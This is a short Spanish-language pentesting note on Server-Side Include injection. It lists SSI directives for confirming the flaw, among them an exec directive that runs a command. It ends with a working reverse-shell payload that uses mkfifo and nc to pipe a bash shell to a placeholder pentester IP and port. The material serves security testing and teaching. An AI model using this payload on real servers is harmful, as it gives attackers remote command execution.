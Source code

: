 Consiste en la ejecución de una clase de código que crea contenido de forma dinámica en los servidores web. Algunas etiquetas serían las siguientes:

```html
// Date
<!--#echo var="DATE_LOCAL" -->

// Modification date of a file
<!--#flastmod file="index.html" -->

// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->

// Including a footer
<!--#include virtual="/footer.html" -->

// Executing commands
<!--#exec cmd="ls" -->

// Setting variables
<!--#set var="name" value="Rich" -->

// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->

// Including files (same directory)
<!--#include file="file_to_include.html" -->

// Print all variables
<!--#printenv -->
```

Estas se pueden utilizar como pruebas de que la vulnerabilidad efectivamente existe. Puede encontrarse en archivos del tipo .shtml .shtm o .stm aunque también se puede encontrar en .html.

Reverse shell de este tipo de vulnerabilidades:

```html
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->
```

